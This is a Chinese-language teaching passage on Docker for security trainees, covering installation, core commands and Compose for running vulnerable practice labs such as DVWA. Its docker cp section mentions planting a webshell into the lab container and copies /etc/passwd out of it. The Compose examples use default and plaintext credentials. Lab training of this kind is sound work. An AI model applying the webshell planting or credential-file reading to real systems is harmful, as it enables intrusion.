


| 课时 | 主题 | 时长 | 核心产出 |
| --- | --- | --- | --- |
| **第 1 课时** | Docker 基础与安装 | 60 min | 装好 Docker，跑通 hello-world |
| **第 2 课时** | 镜像与容器核心操作 | 60 min | 能用 Docker 启动 DVWA 并访问 |
| **第 3 课时** | Docker Compose 与多容器 | 60 min | 能用 Compose 启动多服务靶场 |
| **第 4 课时** | 实战：一键搭建所有安全靶场 | 60 min | 搭好 10+ 靶场，复现 Log4j |

---
## 学员前置检查
- [ ] 会开关机、会下载安装软件
- [ ] 至少 8 GB 内存（16 GB 推荐）
- [ ] 20 GB 可用磁盘
- [ ] Windows 用户：开启 VT-x（虚拟化，BIOS 设置）
- [ ] Mac 用户：知道自己芯片是 Intel 还是 Apple Silicon（M1/M2/M3）

> ⚠️ **本课不要求会 Linux**。所有 Linux 命令都会逐个讲解。

---

# 第 1 课时：Docker 基础与安装
## 1.1 为什么必须学 Docker？
### 1.1.1 一个真实场景
> 周一老师说："回去装一个 DVWA 靶场练 SQL 注入。"  
学员小张回家：
>
> + 装 Apache → 报错
> + 装 PHP → 版本不对
> + 装 MySQL → 密码忘了
> + 配 DVWA → 报错
> + 折腾 3 小时后放弃

**Docker 出场后**：
```plain
docker run -d -p 80:80 vulnerables/web-dvwa
```

**5 秒搞定。** 周一晚上就能练 SQL 注入了。

### 1.1.2 Docker 解决了什么问题？
```
传统部署 → 装操作系统 → 装运行环境(JDK/PHP/Python) → 装数据库 → 配依赖 → 配端口 → 装应用 → 报错排查

Docker 部署 → docker run 一行命令 → 完成
```

> 💡 **核心价值**：**"一次构建，处处运行"** —— 把环境+应用打包成一个镜像，谁来用都一样。

### 1.1.3 对安全从业者的特别价值
| 场景 | Docker 帮你做什么 |
| --- | --- |
| 搭靶场 | 一行命令启动 |
| 复现 CVE | 拉对应版本环境 |
| 测试工具 | 不污染主机 |
| 跑扫描器 | 隔离环境 |
| 学新技术 | 快速试错后销毁 |


> 🎯 **不学 Docker，寸步难行**。后续所有 Web 安全课都依赖 Docker。

---

## 1.2 容器 vs 虚拟机（必懂概念）
### 1.2.1 示意图
```plain
传统虚拟机 (VM)                       容器 (Container)
┌───────┐ ┌───────┐                  ┌───────┐ ┌───────┐
│ App A │ │ App B │                  │ App A │ │ App B │
│ Libs  │ │ Libs  │                  │ Libs  │ │ Libs  │
├───────┤ ├───────┤                  └───┬───┘ └───┬───┘
│ Guest │ │ Guest │                      │         │
│  OS   │ │  OS   │                  ┌───┴─────────┴───┐
├───────┴─┴───────┴─┤                │  Docker Engine  │
│    Hypervisor     │                ├─────────────────┤
├───────────────────┤                │   Host OS       │
│     Host OS       │                ├─────────────────┤
├───────────────────┤                │    硬件          │
│      硬件          │                └─────────────────┘
└───────────────────┘
```

### 1.2.2 核心对比
| 维度 | 虚拟机 VM | 容器 Container |
| --- | --- | --- |
| 启动时间 | 几十秒 ~ 几分钟 | **几秒** |
| 资源占用 | 每个 GB 级 | 每个 MB 级 |
| 隔离性 | 强（独立内核） | 弱（共享内核） |
| 性能 | 有损耗 | **接近原生** |
| 镜像大小 | GB 级 | MB 级 |
| 适合场景 | 完整 OS 模拟 | 应用部署/靶场 |


> 💡 **类比**：
> + **虚拟机** = 在你的房子里**盖一栋独立别墅**（贵、慢、独立水电）
> + **容器** = 在你的房子里**租一个房间**（便宜、快、共享水电）

---

## 1.3 Docker 三大核心概念


### 1.3.1 镜像 (Image)
**类比**：面向对象的**类 (Class)**

+ 是一个**只读模板**
+ 包含运行应用所需的所有内容（代码、库、环境、配置）
+ 一个镜像可以**生成无数个容器**

例子：`nginx:latest`、`ubuntu:22.04`、`mysql:5.7`、`vulnerables/web-dvwa`

### 1.3.2 容器 (Container)
**类比**：面向对象的**对象 (Object)**

+ 是镜像**运行起来的实例**
+ 可以**启动、停止、删除**
+ 容器之间**互相隔离**

### 1.3.3 仓库 (Registry)
**类比**：手机上的 **App Store**

+ 最权威：[Docker Hub](https://hub.docker.com)
+ 国内镜像：阿里云、USTC、网易、DaoCloud

### 1.3.4 关系图
```plain
┌──────────────────────────────────────────┐
│  Docker Hub (公共仓库)                   │
│  ┌──────────────────────────────────┐    │
│  │ nginx:latest  ubuntu  mysql ...  │    │
│  └──────────────────────────────────┘    │
└────────────────┬─────────────────────────┘
                 │ docker pull
                 ▼
┌──────────────────────────────────────────┐
│  本地镜像库 (你的电脑)                   │
│  ┌──────────────────────────────────┐    │
│  │ nginx:latest  ubuntu  dvwa       │    │
│  └──────────────────────────────────┘    │
└────────────────┬─────────────────────────┘
                 │ docker run
                 ▼
┌──────────────────────────────────────────┐
│  运行中的容器                            │
│  ┌──────────┐  ┌──────────┐             │
│  │ dvwa容器1 │  │ dvwa容器2 │  ...        │
│  └──────────┘  └──────────┘             │
└──────────────────────────────────────────┘
```

---

## 1.4 Docker 架构


+ **Client**：你在终端敲的 `docker xxx`
+ **Daemon**：后台运行的"管家"
+ **REST API**：Client 和 Daemon 通信

> 💡 **类比**：你去餐厅点菜（Client）→ 服务员传单（API）→ 厨师做菜（Daemon）。
>

---

## 1.5 安装 Docker
### 1.5.1 各平台对应版本
| 平台 | 版本 | 备注 |
| --- | --- | --- |
| Windows 10/11 | **Docker Desktop** | 基于 WSL 2 |
| macOS Intel | Docker Desktop | - |
| macOS Apple Silicon (M1/M2/M3) | Docker Desktop | ARM 架构 |
| Linux | Docker Engine / Docker CE | 包管理器安装 |


### 1.5.2 Windows 安装（详细步骤）
#### 前置：开启 WSL 2
```powershell
# 以管理员身份打开 PowerShell

# 1. 启用 WSL
dism.exe /online /enable-feature /featurename:Microsoft-Windows-Subsystem-Linux /all /norestart

# 2. 启用虚拟机平台
dism.exe /online /enable-feature /featurename:VirtualMachinePlatform /all /norestart

# 3. 重启电脑

# 4. 设置 WSL 默认版本为 2
wsl --set-default-version 2

# 5. 安装 Ubuntu（可选，但推荐）
wsl --install -d Ubuntu
```

#### 安装 Docker Desktop
1. 访问 [https://www.docker.com/products/docker-desktop/](https://www.docker.com/products/docker-desktop/)
2. 下载 **Docker Desktop for Windows**
3. 双击 `Docker Desktop Installer.exe`
4. 勾选 **Use WSL 2 instead of Hyper-V**
5. 安装 → 重启
6. 启动 Docker Desktop（任务栏出现鲸鱼图标 🐳）
7. 等待"Engine running"提示

#### 验证
```powershell
docker version
docker run hello-world
```

看到 `Hello from Docker!` 即成功。

### 1.5.3 macOS 安装
#### Intel 芯片
1. 下载 **Docker Desktop for Mac - Intel chip**
2. 双击 `.dmg` → 拖动 Docker 到 Applications
3. 启动 → 同意权限

#### Apple Silicon (M1/M2/M3)
1. 下载 **Docker Desktop for Mac - Apple silicon**
2. 同上安装

#### Homebrew 一键安装（推荐）
```bash
brew install --cask docker
# 然后从 Launchpad 启动 Docker
```

#### 验证
```bash
docker version
docker run hello-world
```

### 1.5.4 Linux 安装（Ubuntu/Debian）
```bash
# 1. 卸载旧版本（如果有）
sudo apt remove docker docker-engine docker.io containerd runc

# 2. 更新 apt
sudo apt update

# 3. 安装依赖
sudo apt install -y ca-certificates curl gnupg lsb-release

# 4. 添加 Docker 官方 GPG key（国内可用阿里云源）
sudo mkdir -p /etc/apt/keyrings
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | \
  sudo gpg --dearmor -o /etc/apt/keyrings/docker.gpg

# 5. 添加仓库
echo \
  "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.gpg] \
  https://download.docker.com/linux/ubuntu \
  $(lsb_release -cs) stable" | \
  sudo tee /etc/apt/sources.list.d/docker.list > /dev/null

# 6. 安装
sudo apt update
sudo apt install -y docker-ce docker-ce-cli containerd.io \
  docker-compose-plugin

# 7. 让当前用户能用 docker（避免每次 sudo）
sudo usermod -aG docker $USER

# 8. 注销重新登录（让用户组生效）

# 9. 验证
docker version
docker run hello-world
```

#### CentOS/RHEL
```bash
sudo yum install -y yum-utils
sudo yum-config-manager --add-repo \
  https://download.docker.com/linux/centos/docker-ce.repo
sudo yum install -y docker-ce docker-ce-cli containerd.io \
  docker-compose-plugin
sudo systemctl start docker
sudo systemctl enable docker
sudo usermod -aG docker $USER
```

### 1.5.5 配置国内镜像加速（必做！）
国内拉 Docker Hub 镜像**很慢甚至超时**。配置镜像加速器：

#### Windows / macOS
Docker Desktop → Settings → Docker Engine，编辑 JSON：

```json
{
  "registry-mirrors": [
    "https://docker.mirrors.ustc.edu.cn",
    "https://hub-mirror.c.163.com",
    "https://mirror.baidubce.com"
  ]
}
```

点 **Apply & Restart**。

#### Linux
```bash
sudo mkdir -p /etc/docker
sudo tee /etc/docker/daemon.json <<-'EOF'
{
  "registry-mirrors": [
    "https://docker.mirrors.ustc.edu.cn",
    "https://hub-mirror.c.163.com",
    "https://mirror.baidubce.com"
  ]
}
EOF
sudo systemctl daemon-reload
sudo systemctl restart docker
```

> 💡 **常用加速源**（任选 2-3 个）：
>
> + 中科大：`https://docker.mirrors.ustc.edu.cn`
> + 网易：`https://hub-mirror.c.163.com`
> + 百度：`https://mirror.baidubce.com`
> + 阿里云（个人）：登录 [cr.console.aliyun.com](https://cr.console.aliyun.com) 获取专属地址
>

---

## 1.6 第一个容器：Hello World
### 1.6.1 命令
```bash
docker run hello-world
```

### 1.6.2 输出解读
```plain
Unable to find image 'hello-world:latest' locally    ← 本地没有，去仓库拉
latest: Pulling from library/hello-world              ← 开始拉
2db29710123e: Pull complete                           ← 下载层
Digest: sha256:4e83453afed1b4fa1a3500525091dbf9...    ← 摘要（校验）
Status: Downloaded newer image for hello-world:latest ← 完成

Hello from Docker!                                    ← 容器输出
This message shows that your installation appears...
```

### 1.6.3 实际发生了什么？


---

## 1.7 课时 1 小结
| 关键词 | 一句话 |
| --- | --- |
| Docker | 容器化平台，环境打包运行 |
| 容器 vs VM | 容器轻量共享内核，VM 重独立 OS |
| 三概念 | 镜像（模板）/ 容器（实例）/ 仓库（商店） |
| 安装 | Win/Mac 装 Desktop；Linux 用包管理器 |
| 加速 | 配置 registry-mirrors 必做 |
| 验证 | `docker run hello-world` |


### 课间实操（10 min）
1. 安装 Docker 并启动。
2. 配置国内镜像加速。
3. 跑通 `docker run hello-world`。
4. 截图 `docker version` 输出。

---

# 第 2 课时：镜像与容器核心操作
## 2.1 命令全景图


> 💡 **学完后**：能背下这十几个命令就够用 90% 场景。
>

---

## 2.2 镜像操作
### 2.2.1 docker pull：拉取镜像
```bash
# 基本语法
docker pull [选项] 镜像名[:标签]

# 例子
docker pull nginx                  # 默认 latest 标签
docker pull nginx:1.25             # 指定版本
docker pull ubuntu:22.04
docker pull mysql:5.7
docker pull vulnerables/web-dvwa   # 靶场镜像
```

**镜像名规则**：

```plain
[仓库地址/] 组织名/ 镜像名 : 标签
                              ↑
                          不写默认 latest
```

| 写法 | 含义 |
| --- | --- |
| `nginx` | 等同 `docker.io/library/nginx:latest`（官方） |
| `nginx:1.25` | 官方 nginx 1.25 版本 |
| `vulnerables/web-dvwa` | 用户 vulnerables 的 web-dvwa 仓库 |
| `registry.cn-hangzhou.aliyuncs.com/xxx/yyy` | 阿里云私有仓库 |


### 2.2.2 docker images：列出本地镜像
```bash
docker images
# 或
docker image ls
```

输出示例：

```plain
REPOSITORY              TAG       IMAGE ID       CREATED        SIZE
nginx                   latest    605c77e624dd   2 weeks ago    141MB
ubuntu                  22.04     ba6acccedd29   6 weeks ago    77.8MB
vulnerables/web-dvwa    latest    ab25a4be9f1e   2 years ago    658MB
```

| 列 | 含义 |
| --- | --- |
| REPOSITORY | 仓库名 |
| TAG | 标签 |
| IMAGE ID | 唯一 ID（前 12 位） |
| CREATED | 创建时间 |
| SIZE | 大小 |


### 2.2.3 docker rmi：删除镜像
```bash
docker rmi nginx                  # 按名字删
docker rmi 605c77e624dd           # 按 ID 删
docker rmi $(docker images -q)    # 删除所有镜像（慎用！）
docker image prune                # 删除所有未使用的镜像
```

> ⚠️ **如果镜像被容器使用**（即使容器已停止），无法删除。先 `docker rm` 容器。
>

### 2.2.4 docker search：搜索镜像
```bash
docker search dvwa
```

输出：

```plain
NAME                       DESCRIPTION              STARS   OFFICIAL
vulnerables/web-dvwa       Damn Vulnerable Web ...  234
citizenstig/dvwa           ...                       56
...
```

> 🎯 **建议**：还是去 [hub.docker.com](https://hub.docker.com) 网页搜索更直观。
>

---

## 2.3 容器操作：docker run（最重要！）
### 2.3.1 完整语法
```bash
docker run [选项] 镜像 [命令]
```

### 2.3.2 必背选项表
| 选项 | 全称 | 含义 | 例子 |
| :---: | --- | --- | --- |
| `-d` | `--detach` | 后台运行 | `docker run -d nginx` |
| `-p` | `--publish` | 端口映射 | `-p 8080:80` |
| `-v` | `--volume` | 卷挂载 | `-v /data:/var/lib/mysql` |
| `-e` | `--env` | 环境变量 | `-e MYSQL_ROOT_PASSWORD=root` |
| `--name` | - | 给容器起名 | `--name my-dvwa` |
| `--rm` | - | 退出后自动删 | `--rm` |
| `-it` | - | 交互式终端 | `-it ubuntu bash` |
| `--network` | - | 指定网络 | `--network my-net` |
| `--restart` | - | 重启策略 | `--restart unless-stopped` |
| `--platform` | - | 指定架构 | `--platform linux/amd64` |


### 2.3.3 实战例
#### 例 1：启动 nginx
```bash
docker run -d -p 8080:80 --name my-nginx nginx
```

+ `-d` 后台跑
+ `-p 8080:80` 把容器的 80 端口映射到本机的 8080
+ `--name` 取名 my-nginx

访问 `http://localhost:8080` 看到 nginx 欢迎页 → 成功。

#### 例 2：启动 DVWA
```bash
docker run -d -p 80:80 --name dvwa vulnerables/web-dvwa
```

访问 `http://localhost` → DVWA 登录页（admin/password）。

#### 例 3：交互式进 Ubuntu
```bash
docker run -it ubuntu bash
# 进入容器后可以执行 Linux 命令
root@xxx:/# ls
root@xxx:/# cat /etc/os-release
root@xxx:/# exit    # 退出 → 容器停止
```

#### 例 4：启动 MySQL
```bash
docker run -d \
  -p 3306:3306 \
  -e MYSQL_ROOT_PASSWORD=root \
  -e MYSQL_DATABASE=test \
  --name mysql \
  mysql:5.7
```

#### 例 5：用完即删
```bash
docker run --rm -it ubuntu bash
# exit 后容器自动删除
```

### 2.3.4 -p 端口映射详解
```plain
┌─────────────────────────────────────┐
│  你的电脑                            │
│  ┌──────────────────────────────┐   │
│  │  本机端口 8080                │   │
│  │      ↕ (映射)                │   │
│  │  ┌────────────────────────┐  │   │
│  │  │  容器                  │  │   │
│  │  │  ┌──────────────┐      │  │   │
│  │  │  │  端口 80     │      │  │   │
│  │  │  └──────────────┘      │  │   │
│  │  └────────────────────────┘  │   │
│  └──────────────────────────────┘   │
└─────────────────────────────────────┘
```

```bash
-p 8080:80        # 本机 8080 → 容器 80
-p 80:80          # 本机 80 → 容器 80
-p 127.0.0.1:3306:3306  # 只允许本机访问
-p 8080-8090:8080-8090   # 端口范围
```

> ⚠️ **常见错误**：`port is already allocated` —— 本机端口被占用，换一个。
>

### 2.3.5 -v 卷挂载详解
```plain
┌─────────────────────────────────────┐
│  你的电脑                            │
│  本地目录: /Users/me/data           │
│       ↕ (共享)                      │
│  ┌──────────────────────────────┐   │
│  │  容器                        │   │
│  │  /var/lib/mysql              │   │
│  └──────────────────────────────┘   │
└─────────────────────────────────────┘
```

```bash
-v /Users/me/mysql_data:/var/lib/mysql
# 把本机的 mysql_data 目录挂载到容器的 MySQL 数据目录

# Windows 路径
-v C:\data:/var/lib/mysql
# 或
-v /c/data:/var/lib/mysql

# macOS / Linux
-v /home/user/data:/var/lib/mysql
```

> 💡 **作用**：
>
> + **持久化数据**（容器删除后数据还在）
> + **共享文件**（本机改文件，容器立即生效）
>

### 2.3.6 -e 环境变量
```bash
docker run -d \
  -e MYSQL_ROOT_PASSWORD=root \
  -e MYSQL_DATABASE=wordpress \
  -e MYSQL_USER=wp \
  -e MYSQL_PASSWORD=wp123 \
  mysql:5.7
```

> 💡 **每个镜像的环境变量**查 Docker Hub 页面说明。
>

---

## 2.4 docker ps：查看容器
```bash
docker ps                  # 看运行中的容器
docker ps -a               # 看所有容器（含已停止）
docker ps -q               # 只显示 ID
docker ps --format "table {{.Names}}\t{{.Status}}\t{{.Ports}}"
```

输出：

```plain
CONTAINER ID   IMAGE     STATUS         PORTS                 NAMES
a1b2c3d4e5f6   nginx     Up 3 minutes   0.0.0.0:8080->80/tcp  my-nginx
f7e8d9c0b1a2   mysql     Up 10 minutes  0.0.0.0:3306->3306/tcp mysql
```

| 列 | 含义 |
| --- | --- |
| CONTAINER ID | 容器唯一 ID |
| IMAGE | 用哪个镜像 |
| STATUS | 运行状态（Up = 运行中，Exited = 已退出） |
| PORTS | 端口映射 |
| NAMES | 容器名 |


---

## 2.5 容器生命周期


### 2.5.1 关键命令
```bash
docker start 容器名/ID       # 启动已停止的容器
docker stop 容器名/ID        # 停止容器（优雅退出）
docker restart 容器名/ID     # 重启
docker kill 容器名/ID        # 强制停止（kill -9）
docker pause 容器名/ID       # 暂停（不退出）
docker unpause 容器名/ID     # 恢复

docker rm 容器名/ID          # 删除已停止的容器
docker rm -f 容器名/ID       # 强制删除运行中的容器
```

### 2.5.2 生命周期实操
```bash
# 1. 启动 nginx
docker run -d --name my-nginx nginx

# 2. 停止
docker stop my-nginx

# 3. 再启动
docker start my-nginx

# 4. 重启
docker restart my-nginx

# 5. 删除（需先停止）
docker stop my-nginx
docker rm my-nginx

# 6. 强制删除运行中的
docker rm -f my-nginx
```

---

## 2.6 进入容器与查看日志
### 2.6.1 docker exec：进入容器
```bash
docker exec -it 容器名 bash
# 或
docker exec -it 容器名 sh       # 如果没有 bash
```

参数解释：

+ `-i` 保持输入流
+ `-t` 分配终端
+ `bash` 进容器后执行的命令

### 2.6.2 实战
```bash
# 启动 DVWA
docker run -d -p 80:80 --name dvwa vulnerables/web-dvwa

# 进入容器
docker exec -it dvwa bash

# 容器内执行
root@xxx:/# ls /var/www/html    # DVWA 的网站目录
root@xxx:/# cat /etc/passwd
root@xxx:/# php -v
root@xxx:/# exit                # 退出（容器继续运行）
```

> 🎯 **重要区分**：
>
> + `docker exec` = **进入正在运行的容器**，退出后容器继续运行 ✅
> + `docker attach` = **附加到容器主进程**，退出后**容器会停止** ❌（新手慎用）
>

### 2.6.3 docker logs：查看日志
```bash
docker logs 容器名                # 全部日志
docker logs -f 容器名             # 实时跟踪（类似 tail -f）
docker logs --tail 100 容器名     # 最后 100 行
docker logs -t 容器名             # 显示时间戳
```

### 2.6.4 docker inspect：详细信息
```bash
docker inspect 容器名
# 返回 JSON 格式的所有信息：IP、挂载、环境变量、启动时间...
```

```bash
# 只看 IP
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' 容器名
```

---

## 2.7 docker cp：容器与主机互拷
```bash
# 主机 → 容器
docker cp 本地文件 容器名:容器内路径

# 容器 → 主机
docker cp 容器名:容器内路径 本地文件

# 例子
docker cp my-shell.php dvwa:/var/www/html/
docker cp dvwa:/etc/passwd ./
```

> 🎯 **渗透场景**：往靶场容器里**塞 Webshell**，或者把容器内 `/etc/passwd` 拷出来分析。
>

---

## 2.8 综合实操：完整 DVWA 工作流
```bash
# 1. 拉镜像
docker pull vulnerables/web-dvwa

# 2. 启动容器
docker run -d -p 80:80 --name dvwa vulnerables/web-dvwa

# 3. 看运行状态
docker ps

# 4. 浏览器访问 http://localhost
#    账号 admin / 密码 password

# 5. 进入容器看一下
docker exec -it dvwa bash
# 在容器内：
ls /var/www/html
cat /var/www/html/config/config.inc.php
exit

# 6. 拷一个 PHP 探针进去
echo '<?php phpinfo();' > phpinfo.php
docker cp phpinfo.php dvwa:/var/www/html/
# 浏览器访问 http://localhost/phpinfo.php

# 7. 看日志
docker logs dvwa

# 8. 重启
docker restart dvwa

# 9. 停止
docker stop dvwa

# 10. 删除容器
docker rm dvwa

# 11. 删除镜像
docker rmi vulnerables/web-dvwa
```

---

## 2.9 课时 2 小结
| 命令 | 作用 |
| --- | --- |
| `docker pull` | 拉镜像 |
| `docker images` | 列镜像 |
| `docker rmi` | 删镜像 |
| `docker run` | **创建+启动容器** |
| `docker ps` | 看容器列表 |
| `docker start/stop/restart` | 生命周期 |
| `docker rm` | 删容器 |
| `docker exec -it` | 进入容器 |
| `docker logs -f` | 看日志 |
| `docker cp` | 互拷文件 |
| `docker inspect` | 看详情 |


### 课间实操（20 min）
1. 拉取 nginx、ubuntu、mysql:5.7 镜像。
2. 启动 nginx，浏览器访问 `http://localhost:8080`。
3. 启动 DVWA，登录后修改一处内容。
4. 用 `docker exec` 进入 DVWA 容器，列出 `/var/www/html` 内容。
5. 用 `docker cp` 把 DVWA 的配置文件拷到本机查看。
6. 用 `docker logs` 查看 nginx 启动日志。
7. 停止并删除所有容器和镜像。

---

# 第 3 课时：Docker Compose 与多容器
## 3.1 为什么需要 Compose？
### 3.1.1 单容器的问题
```bash
# 想搭一个 WordPress，需要：
docker run -d --name db -e MYSQL_ROOT_PASSWORD=xxx mysql:5.7
docker run -d --name wp --link db:mysql -p 80:80 wordpress

# 命令长、易错、难维护
# 换台机器就要重新敲一遍
```

### 3.1.2 Compose 出场
**Docker Compose** = **多容器编排工具**

+ 把所有配置写进 **YAML 文件**
+ 一行命令启动 / 停止整个项目
+ 配置可版本控制、可分享

```yaml
# docker-compose.yml
services:
  db:
    image: mysql:5.7
    environment:
      MYSQL_ROOT_PASSWORD: xxx
  wp:
    image: wordpress
    ports:
      - "80:80"
    depends_on:
      - db
```

```bash
docker-compose up -d    # 启动整个项目
docker-compose down     # 停止整个项目
```

---

## 3.2 安装 Docker Compose
### 3.2.1 检查是否已装
```bash
docker-compose version
# 或新版语法
docker compose version
```

### 3.2.2 安装方式
#### Windows / macOS
**Docker Desktop 自带**，无需单独安装。✅

#### Linux
```bash
# 方式 1：作为 Docker 插件（推荐）
sudo apt install docker-compose-plugin

# 方式 2：独立二进制（老版本）
sudo curl -L "https://github.com/docker/compose/releases/download/v2.24.0/docker-compose-$(uname -s)-$(uname -m)" \
  -o /usr/local/bin/docker-compose
sudo chmod +x /usr/local/bin/docker-compose
```

### 3.2.3 v1 vs v2 区别
| 维度 | v1（已淘汰） | v2（推荐） |
| --- | --- | --- |
| 命令 | `docker-compose ...` | `docker compose ...`（空格） |
| 实现 | Python | Go |
| 兼容 | 兼容旧命令 | 向下兼容 |
| 速度 | 慢 | **快** |


> 💡 **建议**：用 v2 语法 `docker compose xxx`，但 v1 命令也能用。
>

---

## 3.3 docker-compose.yml 详解
### 3.3.1 完整结构
```yaml
version: "3.8"      # Compose 文件格式版本

services:            # 定义所有服务
  服务名 1:
    image: ...
    ...
  服务名 2:
    build: ...
    ...

volumes:             # 定义命名卷
  data:

networks:            # 定义网络
  internal:
```

### 3.3.2 服务（service）的常用字段
| 字段 | 含义 | 例子 |
| --- | --- | --- |
| `image` | 镜像 | `nginx:latest` |
| `build` | 构建本地 Dockerfile | `./myapp` |
| `container_name` | 容器名 | `my-nginx` |
| `ports` | 端口映射 | `- "8080:80"` |
| `volumes` | 卷挂载 | `- ./data:/var/lib/mysql` |
| `environment` | 环境变量（明文） | `MYSQL_ROOT_PASSWORD: root` |
| `env_file` | 环境变量文件 | `.env` |
| `depends_on` | 依赖（启动顺序） | `- db` |
| `networks` | 加入网络 | `- internal` |
| `restart` | 重启策略 | `unless-stopped` |
| `command` | 覆盖默认命令 | `nginx -g "daemon off;"` |
| `hostname` | 容器主机名 | `web` |
| `healthcheck` | 健康检查 | 见下文 |
| `privileged` | 特权模式 | `true`（慎用） |


### 3.3.3 完整示例：WordPress
```yaml
version: "3.8"

services:
  db:
    image: mysql:5.7
    container_name: wp-db
    environment:
      MYSQL_ROOT_PASSWORD: rootpassword
      MYSQL_DATABASE: wordpress
      MYSQL_USER: wp
      MYSQL_PASSWORD: wppassword
    volumes:
      - db_data:/var/lib/mysql
    restart: unless-stopped
    networks:
      - wp-net

  wordpress:
    image: wordpress:latest
    container_name: wp-web
    depends_on:
      - db
    ports:
      - "8080:80"
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: wp
      WORDPRESS_DB_PASSWORD: wppassword
      WORDPRESS_DB_NAME: wordpress
    restart: unless-stopped
    networks:
      - wp-net

volumes:
  db_data:

networks:
  wp-net:
```

**一键启动**：

```bash
docker compose up -d
# 浏览器访问 http://localhost:8080
```

---

## 3.4 Compose 常用命令
```bash
docker compose up -d            # 后台启动全部
docker compose up -d 服务名     # 只启动某服务
docker compose down             # 停止并删除容器/网络
docker compose down -v          # 同时删除卷
docker compose start            # 启动（不重建）
docker compose stop             # 停止（不删除）
docker compose restart          # 重启
docker compose ps               # 查看状态
docker compose logs -f          # 实时日志
docker compose logs -f 服务名   # 单服务日志
docker compose exec 服务名 bash # 进入服务容器
docker compose pull             # 更新所有镜像
docker compose build            # 重新构建（如有 build）
```

### 3.4.1 up vs start 区别
| 命令 | 行为 |
| --- | --- |
| `up -d` | **重建容器**（如果配置变了） |
| `start` | 只启动已存在的容器（不应用新配置） |


> 💡 改了 yml 后，**用 **`up -d` 而不是 `start`。
>

---

## 3.5 .env 文件：管理敏感配置
```bash
# .env 文件（与 docker-compose.yml 同目录）
MYSQL_ROOT_PASSWORD=rootpassword
WP_PORT=8080
```

```yaml
# docker-compose.yml
services:
  db:
    image: mysql:5.7
    environment:
      MYSQL_ROOT_PASSWORD: ${MYSQL_ROOT_PASSWORD}
  wordpress:
    ports:
      - "${WP_PORT}:80"
```

```bash
docker compose up -d    # 自动读取 .env
```

> 💡 **好处**：
>
> + 密码不写进 yml
> + 不同环境用不同 .env
> + **加进 .gitignore 不要提交**
>

---

## 3.6 多容器通信：网络
### 3.6.1 默认行为
同一 Compose 项目里的服务**默认在同一网络**，可以**用服务名互访**：

```yaml
services:
  web:
    image: wordpress
    environment:
      WORDPRESS_DB_HOST: db:3306    # ← 用服务名 "db" 而非 IP
  db:
    image: mysql
```

### 3.6.2 自定义网络
```yaml
networks:
  frontend:
    driver: bridge
  backend:
    driver: bridge
    internal: true      # 内部网络，不能访问外网

services:
  web:
    networks:
      - frontend
      - backend
  db:
    networks:
      - backend
```

> 🎯 **渗透视角**：可以**把靶场关进内网**，避免误暴露到公网。
>

---

## 3.7 数据持久化：卷
### 3.7.1 三种挂载方式
| 方式 | 写法 | 含义 |
| --- | --- | --- |
| **命名卷** | `my-vol:/data` | Docker 管理的卷，推荐 |
| **绑定挂载** | `./data:/data` | 绑定本机目录 |
| **临时** | `/data` | 不挂载，删除即丢 |


### 3.7.2 卷管理
```bash
docker volume ls                     # 列卷
docker volume create my-vol          # 创建
docker volume rm my-vol              # 删除
docker volume inspect my-vol         # 看详情
docker volume prune                  # 删除未使用的卷
```

### 3.7.3 实战：DVWA 数据持久化
```yaml
version: "3.8"
services:
